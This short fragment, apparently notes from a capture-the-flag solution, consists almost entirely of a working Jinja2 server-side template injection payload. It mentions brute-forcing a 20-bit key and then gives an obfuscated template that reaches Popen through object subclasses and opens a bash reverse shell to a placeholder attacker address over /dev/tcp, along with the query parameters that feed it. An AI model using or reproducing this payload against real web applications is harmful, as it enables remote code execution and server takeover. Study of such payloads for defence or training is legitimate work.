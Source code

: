 + bruteforce key since it's only 20 bits
+ ssti payload
{%with a=request|attr("args")|attr("get")%}{%for y in(dict,)|map("attr",a("a"))|map("attr",a("b"))|first()()%}{%if "Pop"in(y,)|map("attr",a("c"))|first%}{%print(y("bash -c 'sh -i>& /dev/tcp/ATTACKR_IP_IN_DECIMAL/80 0>&1'",shell=1))%}{%endif%}{%endfor%}{%endwith%}

+ ?a=__base__&b=__subclasses__&c=__name__
 

